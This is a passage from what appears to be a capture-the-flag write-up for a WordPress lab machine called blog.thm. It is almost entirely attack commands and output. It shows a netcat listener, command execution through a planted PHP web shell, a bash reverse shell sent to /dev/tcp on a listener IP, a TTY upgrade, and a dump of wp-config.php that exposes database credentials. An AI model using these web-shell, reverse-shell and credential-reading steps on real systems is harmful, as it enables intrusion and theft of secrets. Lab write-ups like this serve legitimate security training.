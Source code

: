 Bash 2 (Listener):
```bash
rev_shell 10.10.147.84 9001 bash

rev_shell upgrades

nc -lvnp 9001
```

Bash 1:
```bash
curl -s 'http://blog.thm/rse.php?0=id'
```

We should get a reverse shell with this command:
```bash
curl -s 'http://blog.thm/rse.php' --data-urlencode "0=bash -c 'bash -i >& /dev/tcp/10.10.11.36/9001 0>&1'"
```

Output Bash 2:
```bash
www-data@blog:/var/www/wordpress$
```

Bash 2:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

ctrl Z

```bash
stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'

stty raw -echo;fg
```

Press enter 2 times

```bash
ls

cat wp-config.php

/** The name of the database for WordPress */
define('DB_NAME', 'blog');

/** MySQL database username */
define('DB_USER', 'wordpressuser');

/** MySQL database password */
define('DB_PASSWORD', 'LittleYellowLamp90!@');

/** MySQL hostname */
define('DB_HOST', 'localhost');
```
